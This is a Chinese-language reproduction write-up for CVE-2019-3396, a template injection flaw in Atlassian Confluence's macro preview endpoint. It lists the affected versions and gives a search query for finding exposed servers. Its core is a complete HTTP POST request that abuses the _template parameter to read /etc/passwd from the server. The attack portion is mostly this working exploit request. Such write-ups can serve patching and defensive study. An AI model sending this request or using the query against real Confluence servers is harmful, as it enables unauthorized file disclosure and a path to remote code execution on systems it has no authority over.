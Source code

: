# Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

# Atlassian Confluence preview SSTI模版注入漏洞 CVE-2019-3396

## 漏洞描述

Confluence是一个专业的企业知识管理与协同软件，常用于构建企业wiki。 利用该漏洞可以读取服务器上任意文件，进而可以包含恶意文件来执行代码。可能造成敏感信息泄露，服务器被控制等严重后果。

## 漏洞影响

```
Atlassian Atlassian Confluence < 6.6.12
Atlassian Atlassian Confluence 6.7.0-6.12.2
Atlassian Atlassian Confluence < 6.13.3
Atlassian Atlassian Confluence < 6.14.2
```

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

## 漏洞复现

登录页面

![image-20220524142010885](/images/202205241421261.png)

发送请求包

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: 
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3670.0 Safari/537.36
Content-Type: application/json; charset=utf-8
Content-Length: 168

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"}}}
```

